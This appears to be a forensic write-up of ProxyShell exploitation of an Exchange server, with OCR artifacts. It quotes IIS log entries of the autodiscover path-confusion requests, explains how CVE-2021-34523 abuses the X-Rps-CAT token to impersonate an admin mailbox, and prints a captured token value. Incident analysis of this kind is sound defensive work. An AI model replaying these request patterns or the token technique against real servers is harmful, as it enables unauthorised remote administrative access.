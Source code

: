 ```python
- 2021-09-05 15:13:48 10.11.40.100 POST /autodiscover/autodiscover.json
@fucky0u.edu/mapi/emsmdb/?
=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=
<empty>;&cafeReqId=3341f5-feerd-4b84-a736-bd1b3245df; 443 -Mozilla/5.0+XXXXXXXXX+
(KHTML,+like+Gecko)+Chrome/92.xxxxxx1+Safari/xxx.36. - 200 0 0 64200 0 0 28

------------------------------------------------------------------------------
2021-09-05 15:14:03 10.11.40.100 POST /autodiscover/autodiscover.json
@fucky0u.edu/mapi/emsmdb/?
=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=
<empty>;&cafeReqId=3341f5-feerd-4b84-a736-bd1b3245df; 443 -Mozilla/5.0+XXXXXXXXX+
(KHTML,+like+Gecko)+Chrome/92.xxxxxx1+Safari/xxx.36. - 200 0 0 64 - 200 0 0 16

------------------------------------------------------------------------------
2021-09-05 15:15:39 10.11.40.100 POST /autodiscover/autodiscover.json
@fucky0u.edu/mapi/emsmdb/?
=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=
<empty>;&cafeReqId=3341f5-feerd-4b84-a736-bd1b3245df; 443 -Mozilla/5.0+XXXXXXXXX+
(KHTML,+like+Gecko)+Chrome/92.xxxxxx1+Safari/xxx.36. - 200 0 0 64 200 0 0 32
```

---

## **CVE-2021-34523**

The malicious actor exploited the vulnerability CVE-2021-34523 on exchange server to downgrade  the privileges of the Exchange PowerShell Backend, and this gives the malicious actor the ability to execute powershell remotely as administrator. This feature is natively built into Microsoft Exchange which is considered an administrative tool. However, the CVE-2021-34473 grants access to the ‘NT AUTHORITY/SYSTEM’ user which doesn’t have a mailbox which is needed for the PowerShell backend.  Therefore, the malicious actor utilized “admin@[darksys0x.com](http:/darksys0x.com/)” mailbox to use the Powershell backend.

Moreover, the PowerShell backend checks for the “X-CommonAccessToken” header in the incoming requests. If the header does not exist, another method is utilized to obtain a “CommonAccessToken”. This method checks for the “X-Rps-CAT” parameter in the incoming request, and if present, this confirms it is a valid CommonAccessToken. With the previously collected information on the target mailbox or default information from built-in mailboxes, passing of a valid X-Rps-CAT value is trivial.

By passing this value to the PowerShell backend with the previously successful access token, a malicious actor can downgrade from the NT AUTHORITY/SYSTEM account to the target user “admin@[x](http:/darksys0x.com/)xxxx.[com](mailto:ABasicLwaelNetways@darksys0x.comU)”. The following table demonstrates exploitation evidence of the exploit being used from the darksys0x-exch-01 IIS log.

Therefore, the malicious actor utilized “admin@[xxxxxx.com](http:/darksys0x.com/)” mailbox to use the Powershell backend

Command as following:

```python
CAT=VgHvv71UB1dpbmRvd3ND77+9QQVCYXNpY0wWYWRtaW5AZGFya3N5czB4VSxTLTEtNS0yMS0zMDYxMTA3MTA4LemptycafV5fbxxxfBoa159vZm4=
<empty>;&cafeReqId=fb4wer34-8145-48a2-7799-0b5e823324jh
```
